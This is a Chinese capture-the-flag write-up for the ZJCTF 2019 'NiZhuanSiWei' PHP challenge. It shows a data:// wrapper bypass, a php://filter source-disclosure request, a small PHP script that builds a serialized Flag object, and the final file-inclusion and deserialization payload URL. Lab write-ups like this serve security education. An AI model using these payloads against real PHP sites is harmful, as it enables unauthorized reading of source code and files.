


# [ZJCTF 2019]NiZhuanSiWei

## Tag

Data 伪协议+PHP 反序列化

***

## Writeup

首先要 text 为一个文件，内容强等于 "welcome to the zjctf"，可以采用 data 伪协议绕过：`?text=data://text/plain,welcome to the zjctf`（或者为了特殊字符干扰可以用 Base64：`?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=`），之后我们就需要通过反序列化，通过 `?text=data://text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php&password=a` 查看 useless.php 源码：



exp 如下：

```php
<?php
class Flag{
    public $file = 'flag.php';
}
$password = new Flag();
$res=serialize(@$password);   
echo $res
?>
```

最终 Payload：`/?text=data://text/plain,welcome%20to%20the%20zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}`

